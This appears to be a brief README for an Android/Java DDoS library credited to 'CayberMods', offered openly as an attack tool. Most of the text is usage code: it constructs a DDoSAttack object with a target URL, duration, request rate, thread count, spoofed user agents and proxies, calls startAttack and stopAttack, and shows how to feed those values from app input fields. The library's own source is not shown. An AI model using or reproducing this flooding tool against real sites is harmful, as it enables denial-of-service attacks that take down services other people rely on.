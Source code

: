 # DDoSJava
DDoS Untuk Java

# Start/Off
---
# Start
DDoSAttack ddosAttack = new DDoSAttack(MainActivity.this, targetUrl, time, rate, threads, userAgents, proxies);
ddosAttack.startAttack();
---
# Off
DDoSAttack ddosAttack = new DDoSAttack(MainActivity.this, targetUrl, time, rate, threads, userAgents, proxies);
ddosAttack.stopAttack();
---

# UserAgent
userAgents

# Proxy
proxies

# Id for Edittext
String targetUrl = xxx.getText().toString();
int time = Integer.parseInt(xxx.getText().toString());
int rate = Integer.parseInt(xxx.getText().toString());
int threads = Integer.parseInt(xxx.getText().toString());

# id foe Spinner
List<String> userAgents = Arrays.asList(xxx.split(","));
List<String> proxies = Arrays.asList(xxx.split(","));

# © CayberMods
